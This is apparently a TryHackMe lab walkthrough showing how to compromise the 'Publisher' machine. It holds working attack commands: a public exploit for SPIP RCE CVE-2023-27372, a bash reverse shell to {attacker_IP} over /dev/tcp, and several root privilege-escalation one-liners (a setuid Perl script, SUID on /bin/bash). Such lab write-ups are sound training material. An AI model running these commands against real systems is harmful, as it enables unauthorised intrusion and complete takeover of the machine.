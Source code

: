 ```yaml
---
title: Publisher - TryHackMe Walkthrough
date: 2024-01-25 00:00:00 +0000
categories: [TryHackMe, Web Exploitation]
tags: [web, spip, rce, docker, privilege-escalation, tryhackme]
image:
  path: https://github.com/user-attachments/assets/9e1919d4-6a88-4bcf-9f67-1d28e61b7cac
  alt: Publisher Room Banner
---
```


# Publisher - TryHackMe Walkthrough

## Enumeration

### Nmap Scan
We start with a comprehensive nmap scan:
```bash
sudo nmap -sC -sV -T4 {target_IP}
```

The scan reveals two open ports:
- Port 22: OpenSSH 8.2p1 Ubuntu
- Port 80: Apache httpd 2.4.41

### Web Enumeration
The website appears to be a simple blog with no obvious functionality. Running a directory scan with feroxbuster reveals the `/spip` path.

![Publisher Homepage](https://github.com/user-attachments/assets/88eb3c30-693d-4126-a487-678a845fb8d0)

Using Wappalyzer, we identify that the site is running SPIP version 4.2.0.

![SPIP Version](https://github.com/user-attachments/assets/6d83eac2-5997-4116-8602-7605e1d5e8a6)

## Initial Access

Research reveals that SPIP 4.2.0 is vulnerable to Unauthenticated Remote Code Execution (CVE-2023-27372). We can exploit this using a publicly available exploit:

```bash
git clone https://github.com/Chocapikk/CVE-2023-27372.git
pip install -r requirements.txt
python CVE-2023-27372.py -u http://{target_IP}/spip/ -v -o report.txt
```

![RCE Success](https://github.com/user-attachments/assets/a949bd7d-2bf4-426c-a726-76072a9081f6)

### Getting a Reverse Shell
We establish a reverse shell using:
```bash
bash -c "bash -i >& /dev/tcp/{attacker_IP}/9001 0>&1"
```

![Reverse Shell](https://github.com/user-attachments/assets/a563c167-31f6-4adb-b566-cd989a0879bf)

## Lateral Movement

We discover we're in a Docker container. Manual enumeration reveals an SSH private key in the think user's home directory:

![SSH Key](https://github.com/user-attachments/assets/c2dff48d-d254-48d7-9610-408a223b381d)

We can use this key to gain SSH access as the think user:
```bash
ssh -i id_rsa think@{target_IP}
```

## Privilege Escalation

### Method 1: AppArmor Bypass
We discover AppArmor is running, which restricts file operations. After analyzing the AppArmor rules, we find we can write to `/dev/shm`:

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /dev/shm/test.pl
chmod +x /dev/shm/test.pl
./test.pl
```

### Method 2: SUID Binary Exploitation
We find a SUID binary `/usr/sbin/run_container` that executes `/opt/run_container.sh`. Since we have write permissions to this script, we can modify it to add SUID to `/bin/bash`:

```bash
echo 'chmod +s /bin/bash' > /opt/run_container.sh
/usr/sbin/run_container
/bin/bash -p
```

![Root Access](https://github.com/user-attachments/assets/53ae8c26-a233-4010-bebe-2637fbf6ff54)

## Alternative Method
From the www-data shell, we can:
1. Copy `/bin/bash` to `/home/think/spip`
2. Set SUID bit
3. Make it readable by everyone
4. Execute it from the SSH session

## Conclusion
This machine demonstrates several important security concepts:
- Web application vulnerabilities (SPIP RCE)
- Docker container escape
- AppArmor bypass techniques
- SUID binary exploitation
- Multiple privilege escalation paths

Remember: Always look for multiple ways to achieve your goal, as there might be more than one path to success. 